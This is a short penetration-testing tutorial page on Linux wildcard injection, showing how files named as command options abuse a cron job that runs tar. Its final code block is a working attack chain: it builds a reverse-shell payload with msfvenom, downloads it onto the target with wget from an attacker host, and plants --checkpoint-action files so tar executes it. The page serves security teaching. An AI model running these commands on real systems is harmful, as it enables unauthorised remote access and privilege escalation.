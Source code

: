 # Wildcard and cronjob

When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as glubbing) on the wildcard. Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.

```bash
touch ./-l
ls *
```

The command shows the output of ls -l command.&#x20;

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

## Wildcard abuse for cron

When you see the following cron configuration for tar command, we can abuse the configuration.&#x20;

<figure><img src="../../.gitbook/assets/image4.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
kali> msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.142.155 LPORT=53 -f elf -o shell.elf
kali> python -m SimpleHTTPServer 
kali> nc -nlvp 53

# Target
wget http://192.168.142.155:8000/shell.elf
chmod 755 shell.elf 
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

# Wait until you see the netcat connection back to kali.
```
{% endcode %}
